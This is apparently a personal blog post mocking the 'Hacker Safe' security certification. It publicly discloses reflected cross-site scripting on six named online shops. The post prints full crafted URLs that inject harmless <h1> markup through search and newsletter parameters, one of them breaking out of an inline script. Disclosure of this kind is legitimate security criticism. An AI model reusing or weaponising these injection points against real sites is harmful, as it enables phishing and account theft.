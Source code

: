 <html><body><p>As you might know, Cross-Site-Scripting (aka XSS) is a very evil thing, and can be used for several attacks, like phishing, DDoS, trojan/spyware/malware distribution and &lt;insert evil thingie here&gt;.<br>

Today I've seen a link to <a href="http://www.costcentral.com">http://www.costcentral.com</a>, someone on the thinkpad-mailinglist has posted it. Just for fun I clicked and looked at the item (a ThinkPad USB keyboard). Nothing evil until yet, the link wasn't crafted and the item was okay, but then I discovered this nice "<a href="http://www.scanalert.com" target="_blank">ScanAlert - Hacker Safe</a>" logo (if you clicked the link and wonder why Firefox^WIceweasel does not show anything in the title: the guys forgot the &lt;title&gt;-tag ;-)). You might ask now: "Hacker Safe"? WTF!? (or maybe *ROFL*? I was like o_O).<br>

A sentence from their about-page describes the situation:<br>

<strong>"Tens of thousands of organizations from small non-profits to FORTUNE 500 multinationals rely on ScanAlert to protect, audit and certify the security of their networks and ecommerce infrastructure."</strong><br>

<br>

They do security? I do too... So let's test ;-)<br>

A click on "hacker safe sites" gave me a list of sites. Uh, did I just read NetGear there? Didn't I have discovered some XSS in there sites a month ago? True, but the link goes to the shop of NetGear, which seems okay on the first view (didn't look another time, there was much more fun later).<br>

<br>

So here we have six nice XSS links, two in the newsletter form, four in the search one. How people can still be so stupid?!<br>

<br>

<a href="http://www.yankeecandle.com/cgi-bin/ycbvp/emailOptIn.jsp?email=%3Ch1%3EH4x0R_s4F3?%3C/h1%3E&amp;wantMessage=1&amp;submit.x=1&amp;submit.y=1" target="blank">yankeecandle.com newsletter XSS</a><br>

<a href="http://store.babycenter.com/p2p/basicSearch.do?keyword=%3Ch1%3Ehagg0r%20zafe?%3C/h1%3E&amp;Search.x=0&amp;Search.y=0" target="blank">store.babycenter.com search XSS</a><br>

<a href="http://www.guitarcenter.com/subscribe/subscribe.cfm?email=%22%3E%3Ch1%3ESAF0R?%3C/h1%3E" target="blank">guitarcenter.com newsletter XSS</a><br>

<a href="http://www.fortunoff.com/find.asp?textsearchname=0desc&amp;textsearchvalue=%3Ch1%3Ehacker?%3C/h1%3E&amp;samesearch=1" target="blank">fortunoff.com search XSS</a><br>

<a href="http://www.bhphotovideo.com/bnh/controller/home?ci=1&amp;sb=ps&amp;pn=1&amp;sq=desc&amp;InitialSearch=yes&amp;O=productlist.jsp&amp;A=search&amp;Q=*&amp;bhs=t&amp;shs=--%3E%3C/script%3E%3Ch1%3Esekkure???%3C/h1%3E&amp;image.x=0&amp;image.y=0" target="blank">bhphotovideo.com search XSS</a> (this one was actually funny, the DID protect the data almost everywhere, but not inside one small javascript -&gt; sucks)<br>

<a href="http://search.pacsun.com/?query=%22%3E%3Ch1%3Eseggure!?%3C/h1%3E" target="blank">search.pacsun.com search XSS</a><br>

<br>

So what do we have? Six sites with XSS, discovered (instead of doing some university stuff) in about half an hour. And those sites should be hacker safe? Says a company doing its job since 2001? May I just give a loud laugh and go to bed with my girlfriend? Yeah maybe I should, but instead I whine about this poor security on the web of today. Is it InSecurity 2.0?<br>

<br>

Guys, please read <a href="http://www.heise.de/security/artikel/84149" target="blank">THIS article about web security at heise.de</a> (sorry, it's in German) or just change the job!</p></body></html>